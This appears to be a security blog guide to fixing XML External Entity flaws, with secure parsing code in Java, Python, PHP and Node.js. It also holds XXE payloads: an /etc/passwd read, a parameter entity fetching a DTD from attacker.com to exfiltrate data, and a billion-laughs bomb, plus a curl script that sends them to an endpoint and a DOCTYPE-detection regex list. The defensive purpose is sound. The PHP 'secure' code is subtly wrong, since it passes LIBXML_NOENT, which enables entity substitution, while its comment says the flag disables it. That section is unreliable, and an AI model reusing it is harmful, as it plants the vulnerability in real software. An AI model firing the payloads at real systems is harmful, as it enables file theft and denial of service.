

# How to Fix "XML External Entity (XXE)" Vulnerabilities

Author: [nawazdhandala](https://www.github.com/nawazdhandala)

Tags: Security, XXE, XML, OWASP, Java, Python, PHP, Node.js, Injection

Description: Learn how to identify and fix XML External Entity (XXE) vulnerabilities that can lead to data theft, server-side request forgery, and denial of service attacks.

---

> XML External Entity (XXE) vulnerabilities occur when XML parsers process external entity references in XML documents. Attackers can exploit this to read local files, perform server-side request forgery (SSRF), or cause denial of service. This guide shows you how to identify and fix XXE vulnerabilities across different programming languages.

XXE is particularly dangerous because it can expose sensitive files like /etc/passwd, configuration files, and even make requests to internal services.

---

## Understanding XXE Attacks

```mermaid
graph TD
    A[Attacker] --> B[Malicious XML]
    B --> C[Vulnerable Parser]
    C --> D{External Entity}
    D --> E[Local File Read]
    D --> F[SSRF Attack]
    D --> G[DoS Attack]

    E --> E1[/etc/passwd]
    E --> E2[config files]
    E --> E3[source code]

    F --> F1[Internal APIs]
    F --> F2[Metadata endpoints]
    F --> F3[Database ports]

    G --> G1[Billion laughs]
    G --> G2[Recursive entities]
    G --> G3[External DTD fetch]
```

---

## XXE Attack Examples

### Basic XXE - Local File Disclosure

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<userInfo>
  <name>&xxe;</name>
</userInfo>
```

When parsed by a vulnerable XML processor, the `&xxe;` entity expands to the contents of `/etc/passwd`.

### XXE with Parameter Entities (Blind XXE)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd">
  %xxe;
]>
<data>test</data>
```

This loads an external DTD from the attacker's server, which can exfiltrate data.

### Billion Laughs Attack (DoS)

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
]>
<lolz>&lol5;</lolz>
```

This exponentially expands entities, consuming massive memory.

---

## Fixing XXE in Java

```java
// SecureXMLParser.java
// Secure XML parsing in Java

import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.SAXParserFactory;
import javax.xml.parsers.SAXParser;
import javax.xml.XMLConstants;
import javax.xml.transform.TransformerFactory;
import javax.xml.validation.SchemaFactory;
import org.w3c.dom.Document;
import org.xml.sax.InputSource;
import java.io.StringReader;

public class SecureXMLParser {

    /**
     * Create a secure DocumentBuilderFactory
     * Disables all external entity processing
     */
    public static DocumentBuilderFactory createSecureDocumentBuilderFactory()
            throws Exception {

        DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();

        // Disable DTDs entirely (most secure option)
        factory.setFeature(
            "http://apache.org/xml/features/disallow-doctype-decl",
            true
        );

        // If DTDs are needed, disable external entities and DTDs
        factory.setFeature(
            "http://xml.org/sax/features/external-general-entities",
            false
        );
        factory.setFeature(
            "http://xml.org/sax/features/external-parameter-entities",
            false
        );
        factory.setFeature(
            "http://apache.org/xml/features/nonvalidating/load-external-dtd",
            false
        );

        // Disable XInclude processing
        factory.setXIncludeAware(false);

        // Disable entity expansion
        factory.setExpandEntityReferences(false);

        return factory;
    }

    /**
     * Create a secure SAXParserFactory
     */
    public static SAXParserFactory createSecureSAXParserFactory()
            throws Exception {

        SAXParserFactory factory = SAXParserFactory.newInstance();

        // Disable DTDs
        factory.setFeature(
            "http://apache.org/xml/features/disallow-doctype-decl",
            true
        );

        // Disable external entities
        factory.setFeature(
            "http://xml.org/sax/features/external-general-entities",
            false
        );
        factory.setFeature(
            "http://xml.org/sax/features/external-parameter-entities",
            false
        );

        // Disable external DTD loading
        factory.setFeature(
            "http://apache.org/xml/features/nonvalidating/load-external-dtd",
            false
        );

        factory.setXIncludeAware(false);

        return factory;
    }

    /**
     * Create a secure TransformerFactory
     */
    public static TransformerFactory createSecureTransformerFactory()
            throws Exception {

        TransformerFactory factory = TransformerFactory.newInstance();

        // Disable external access
        factory.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, "");
        factory.setAttribute(XMLConstants.ACCESS_EXTERNAL_STYLESHEET, "");

        return factory;
    }

    /**
     * Create a secure SchemaFactory
     */
    public static SchemaFactory createSecureSchemaFactory()
            throws Exception {

        SchemaFactory factory = SchemaFactory.newInstance(
            XMLConstants.W3C_XML_SCHEMA_NS_URI
        );

        // Disable external access
        factory.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, "");
        factory.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");

        return factory;
    }

    /**
     * Parse XML safely
     */
    public static Document parseXMLSecurely(String xmlString) throws Exception {
        DocumentBuilderFactory factory = createSecureDocumentBuilderFactory();
        DocumentBuilder builder = factory.newDocumentBuilder();

        InputSource inputSource = new InputSource(new StringReader(xmlString));
        return builder.parse(inputSource);
    }

    // Example usage
    public static void main(String[] args) {
        String xmlInput = "<user><name>John</name></user>";

        try {
            Document doc = parseXMLSecurely(xmlInput);
            System.out.println("Parsed successfully: " +
                doc.getDocumentElement().getNodeName());
        } catch (Exception e) {
            System.err.println("Error parsing XML: " + e.getMessage());
        }
    }
}
```

---

## Fixing XXE in Python

```python
# secure_xml.py
# Secure XML parsing in Python

import defusedxml.ElementTree as ET
from defusedxml import minidom
from defusedxml.common import DefusedXmlException
from lxml import etree
import io

class SecureXMLParser:
    """
    Secure XML parsing utilities
    Uses defusedxml library for safe parsing
    """

    @staticmethod
    def parse_string(xml_string: str):
        """
        Parse XML string safely using defusedxml
        Blocks XXE, DTD processing, and entity expansion
        """
        try:
            # defusedxml automatically blocks XXE attacks
            return ET.fromstring(xml_string)
        except DefusedXmlException as e:
            raise ValueError(f"Potentially malicious XML detected: {e}")
        except ET.ParseError as e:
            raise ValueError(f"Invalid XML: {e}")

    @staticmethod
    def parse_file(filepath: str):
        """
        Parse XML file safely
        """
        try:
            return ET.parse(filepath)
        except DefusedXmlException as e:
            raise ValueError(f"Potentially malicious XML detected: {e}")

    @staticmethod
    def parse_with_lxml(xml_string: str):
        """
        Parse XML with lxml using secure settings
        lxml requires explicit configuration to be secure
        """
        # Create parser with secure settings
        parser = etree.XMLParser(
            resolve_entities=False,  # Disable entity resolution
            no_network=True,         # Disable network access
            dtd_validation=False,    # Disable DTD validation
            load_dtd=False,          # Don't load DTD
            huge_tree=False          # Limit tree size
        )

        try:
            return etree.fromstring(xml_string.encode(), parser)
        except etree.XMLSyntaxError as e:
            raise ValueError(f"Invalid XML: {e}")

    @staticmethod
    def parse_minidom(xml_string: str):
        """
        Parse XML with minidom safely
        Uses defusedxml's safe minidom
        """
        return minidom.parseString(xml_string)


# VULNERABLE - Do not use these patterns
class VulnerableExamples:
    """Examples of VULNERABLE code - DO NOT USE"""

    @staticmethod
    def vulnerable_stdlib():
        """VULNERABLE: Standard library without protection"""
        import xml.etree.ElementTree as ET  # Vulnerable to XXE
        # ET.fromstring(malicious_xml)  # DON'T DO THIS
        pass

    @staticmethod
    def vulnerable_lxml():
        """VULNERABLE: lxml with default settings"""
        from lxml import etree
        # Default lxml parser resolves entities
        # etree.fromstring(malicious_xml)  # DON'T DO THIS
        pass


# Example: Secure XML API endpoint
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/api/parse', methods=['POST'])
def parse_xml():
    """
    Secure XML parsing endpoint
    """
    content_type = request.headers.get('Content-Type', '')

    if 'xml' not in content_type.lower():
        return jsonify({'error': 'Content-Type must be XML'}), 400

    xml_data = request.get_data(as_text=True)

    # Validate size to prevent DoS
    if len(xml_data) > 1024 * 1024:  # 1MB limit
        return jsonify({'error': 'XML too large'}), 413

    try:
        # Use secure parser
        root = SecureXMLParser.parse_string(xml_data)

        # Process the XML safely
        result = {
            'root_tag': root.tag,
            'children': len(list(root))
        }

        return jsonify(result)

    except ValueError as e:
        return jsonify({'error': str(e)}), 400


if __name__ == '__main__':
    # Test secure parsing
    safe_xml = "<user><name>John</name></user>"

    # This will be blocked
    malicious_xml = '''<?xml version="1.0"?>
    <!DOCTYPE foo [
      <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <user><name>&xxe;</name></user>'''

    parser = SecureXMLParser()

    # Safe XML parses successfully
    result = parser.parse_string(safe_xml)
    print(f"Parsed safe XML: {result.tag}")

    # Malicious XML is blocked
    try:
        parser.parse_string(malicious_xml)
    except ValueError as e:
        print(f"Blocked malicious XML: {e}")
```

---

## Fixing XXE in PHP

```php
<?php
// secure_xml.php
// Secure XML parsing in PHP

/**
 * Secure XML Parser class
 * Disables external entity loading and other dangerous features
 */
class SecureXMLParser {

    /**
     * Parse XML string securely
     */
    public static function parseString(string $xmlString): SimpleXMLElement {
        // CRITICAL: Disable external entity loading BEFORE parsing
        $previousValue = libxml_disable_entity_loader(true);

        // Disable error output to prevent information leakage
        libxml_use_internal_errors(true);

        try {
            // Parse with secure options
            $xml = simplexml_load_string(
                $xmlString,
                'SimpleXMLElement',
                LIBXML_NONET | LIBXML_NOENT  // Disable network and entity substitution
            );

            if ($xml === false) {
                $errors = libxml_get_errors();
                libxml_clear_errors();
                throw new InvalidArgumentException('Invalid XML: ' . $errors[0]->message);
            }

            return $xml;

        } finally {
            // Restore previous setting
            libxml_disable_entity_loader($previousValue);
        }
    }

    /**
     * Parse XML file securely
     */
    public static function parseFile(string $filepath): SimpleXMLElement {
        if (!file_exists($filepath)) {
            throw new InvalidArgumentException('File not found');
        }

        $content = file_get_contents($filepath);
        return self::parseString($content);
    }

    /**
     * Parse with DOMDocument securely
     */
    public static function parseDOM(string $xmlString): DOMDocument {
        $previousValue = libxml_disable_entity_loader(true);
        libxml_use_internal_errors(true);

        try {
            $dom = new DOMDocument();

            // Secure loading options
            $options = LIBXML_NONET | LIBXML_NOENT | LIBXML_DTDLOAD;

            $success = $dom->loadXML($xmlString, $options);

            if (!$success) {
                $errors = libxml_get_errors();
                libxml_clear_errors();
                throw new InvalidArgumentException('Invalid XML');
            }

            return $dom;

        } finally {
            libxml_disable_entity_loader($previousValue);
        }
    }

    /**
     * Validate XML size to prevent DoS
     */
    public static function validateSize(string $xmlString, int $maxSize = 1048576): void {
        if (strlen($xmlString) > $maxSize) {
            throw new InvalidArgumentException('XML exceeds maximum size');
        }
    }
}


/**
 * VULNERABLE examples - DO NOT USE
 */
class VulnerableExamples {

    /**
     * VULNERABLE: No protection against XXE
     */
    public static function vulnerable(string $xml): SimpleXMLElement {
        // DON'T DO THIS - vulnerable to XXE
        // return simplexml_load_string($xml);
        throw new Exception('This is an example of vulnerable code');
    }
}


// Example: Secure XML API endpoint
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    header('Content-Type: application/json');

    try {
        $input = file_get_contents('php://input');

        // Validate size first
        SecureXMLParser::validateSize($input);

        // Parse securely
        $xml = SecureXMLParser::parseString($input);

        // Process the XML
        $response = [
            'success' => true,
            'root' => $xml->getName(),
            'children' => count($xml->children())
        ];

        echo json_encode($response);

    } catch (InvalidArgumentException $e) {
        http_response_code(400);
        echo json_encode(['error' => $e->getMessage()]);
    }
}
```

---

## Fixing XXE in Node.js

```javascript
// secure-xml.js
// Secure XML parsing in Node.js

const { XMLParser, XMLBuilder } = require('fast-xml-parser');
const libxmljs = require('libxmljs2');

/**
 * Secure XML Parser using fast-xml-parser
 * This library doesn't process DTDs by default, making it safe
 */
class SecureXMLParser {
    constructor() {
        // Configure parser with secure options
        this.parser = new XMLParser({
            ignoreAttributes: false,
            attributeNamePrefix: '@_',
            // These settings help prevent XXE and related attacks
            processEntities: false,      // Don't process entities
            htmlEntities: false,         // Don't process HTML entities
            allowBooleanAttributes: true,
            parseTagValue: true,
            trimValues: true
        });
    }

    /**
     * Parse XML string safely
     */
    parse(xmlString) {
        // Validate input
        if (typeof xmlString !== 'string') {
            throw new Error('Input must be a string');
        }

        // Check for DOCTYPE declarations (potential XXE)
        if (this.containsDTD(xmlString)) {
            throw new Error('DOCTYPE declarations are not allowed');
        }

        // Check size to prevent DoS
        if (xmlString.length > 1024 * 1024) {
            throw new Error('XML exceeds maximum size (1MB)');
        }

        try {
            return this.parser.parse(xmlString);
        } catch (error) {
            throw new Error(`Invalid XML: ${error.message}`);
        }
    }

    /**
     * Check if XML contains DOCTYPE declaration
     */
    containsDTD(xmlString) {
        // Check for DOCTYPE with various patterns
        const dtdPatterns = [
            /<!DOCTYPE/i,
            /<!ENTITY/i,
            /SYSTEM\s+["']/i,
            /PUBLIC\s+["']/i
        ];

        return dtdPatterns.some(pattern => pattern.test(xmlString));
    }
}


/**
 * Secure parsing with libxmljs2 (if you need full XML features)
 * Requires explicit security configuration
 */
class SecureLibxmlParser {

    /**
     * Parse XML with secure libxmljs2 settings
     */
    static parse(xmlString) {
        // Validate input
        if (typeof xmlString !== 'string') {
            throw new Error('Input must be a string');
        }

        // Secure parsing options
        const options = {
            noent: false,     // Don't substitute entities
            nonet: true,      // Disable network access
            noblanks: true,   // Remove blank nodes
            nocdata: false,   // Keep CDATA as text
            dtdload: false,   // Don't load DTD
            dtdvalid: false   // Don't validate against DTD
        };

        try {
            return libxmljs.parseXml(xmlString, options);
        } catch (error) {
            throw new Error(`Invalid XML: ${error.message}`);
        }
    }
}


// Express middleware for secure XML parsing
const express = require('express');

function secureXmlParser(maxSize = 1024 * 1024) {
    const parser = new SecureXMLParser();

    return (req, res, next) => {
        const contentType = req.headers['content-type'] || '';

        // Only process XML content types
        if (!contentType.includes('xml')) {
            return next();
        }

        let body = '';

        req.on('data', chunk => {
            body += chunk;

            // Check size during streaming
            if (body.length > maxSize) {
                req.destroy();
                res.status(413).json({ error: 'Request too large' });
            }
        });

        req.on('end', () => {
            try {
                req.xmlBody = parser.parse(body);
                next();
            } catch (error) {
                res.status(400).json({ error: error.message });
            }
        });

        req.on('error', error => {
            res.status(400).json({ error: 'Error reading request' });
        });
    };
}


// Usage example
const app = express();

app.use('/api/xml', secureXmlParser());

app.post('/api/xml/process', (req, res) => {
    // req.xmlBody contains safely parsed XML
    res.json({
        success: true,
        data: req.xmlBody
    });
});


module.exports = { SecureXMLParser, SecureLibxmlParser, secureXmlParser };
```

---

## XXE Prevention Checklist



| Language | Safe Library/Method | Configuration |
|----------|-------------------|---------------|
| Java | DocumentBuilderFactory | disallow-doctype-decl = true |
| Python | defusedxml | Use instead of stdlib |
| PHP | libxml_disable_entity_loader | Call before parsing |
| Node.js | fast-xml-parser | processEntities = false |
| .NET | XmlReaderSettings | DtdProcessing.Prohibit |
| Ruby | Nokogiri | NONET, NOENT flags |

---

## Testing for XXE Vulnerabilities

```bash
#!/bin/bash
# xxe_test.sh
# Test for XXE vulnerabilities

API_URL="${1:-http://localhost:8080/api/xml}"

echo "Testing for XXE vulnerabilities..."
echo "=================================="

# Test 1: Basic XXE file read
echo ""
echo "Test 1: Basic XXE (file read attempt)"
curl -s -X POST "$API_URL" \
    -H "Content-Type: application/xml" \
    -d '<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>'

# Test 2: XXE via parameter entity
echo ""
echo "Test 2: Parameter entity XXE"
curl -s -X POST "$API_URL" \
    -H "Content-Type: application/xml" \
    -d '<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd">
  %xxe;
]>
<data>test</data>'

# Test 3: Billion laughs DoS
echo ""
echo "Test 3: Billion laughs (DoS)"
curl -s -X POST "$API_URL" \
    -H "Content-Type: application/xml" \
    -d '<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;">
]>
<data>&lol2;</data>'

echo ""
echo "If any test returned sensitive data or server errors, XXE may be present."
```

---

## Key Takeaways

1. **Disable DTD processing entirely** - This is the most secure option
2. **Use safe XML libraries** - defusedxml for Python, fast-xml-parser for Node.js
3. **Configure parsers explicitly** - Default settings are often vulnerable
4. **Validate XML input** - Check size and reject DOCTYPE declarations
5. **Consider JSON instead** - If you don't need XML features, use JSON
6. **Test your parsers** - Verify your configuration blocks XXE attacks

---

*Need to monitor your application for XXE and injection attacks? [OneUptime](https://oneuptime.com) provides security monitoring with alerting on suspicious request patterns.*

**Related Reading:**
- [How to Fix "Security Misconfiguration" Issues](https://oneuptime.com/blog/post/2026-01-24-fix-security-misconfiguration/view)
- [How to Handle Input Validation](https://oneuptime.com/blog/post/2026-01-24-handle-input-validation/view)
- [How to Fix "Sensitive Data Exposure" Issues](https://oneuptime.com/blog/post/2026-01-24-fix-sensitive-data-exposure/view)
